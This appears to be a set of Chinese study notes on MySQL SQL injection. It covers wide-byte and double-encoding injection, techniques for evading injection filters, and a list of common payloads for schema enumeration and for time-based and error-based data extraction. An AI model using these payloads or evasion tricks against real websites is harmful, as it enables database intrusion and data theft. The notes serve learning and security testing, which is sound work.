 ​	update 

`update user_login set login_ip = '1.1.1.1' where name = 'x'`

=====内联注入 

```MYSQL
insert into tb() values(database(),version())
```

#### 宽字节注入

宽字节；两个字节宽度的编码技术  

原因：mysql使用gbk编码的时候，会认为两个字符为一个汉字

set_charset = 'gbk'   8140 - FEFE 

%df(81)\           转为中文

#### 二次编码注入

%2527 > %27 > '

urldecode()  addslashes()  rawurldecode()

####  二次注入 



绕过注入检测：

1. 大小写
2. url编码
3. html编码
4. 十六进制编码
5. unicode编码

- `//` `--` `-- +` `-- -` `#` `/**/` `;%00`
- uniunionon
- and &
- or |
- space 0x9 0x20 0xa0 

常见Payload 

- select version()\@@version
- select user()\system_user()
- select user from mysql.user
- select database()
- select schema_name from information_schema.schemata
- select table_name from information_schema.tables
- select column_name from information_schema.columns
- select if(condition,sleep(3),0)
- ascii(x)
- sleep(3)
- benchmark(5000000,md5(1))
- ascii(substr(str,1,1)) & 32 = 1
- extractvalue(1,concat(0x5e,(version()))
- updatexml(1,concat(0x5e,(version()),1),1)
- count(\*),floor(rand(0)*2)x group by x
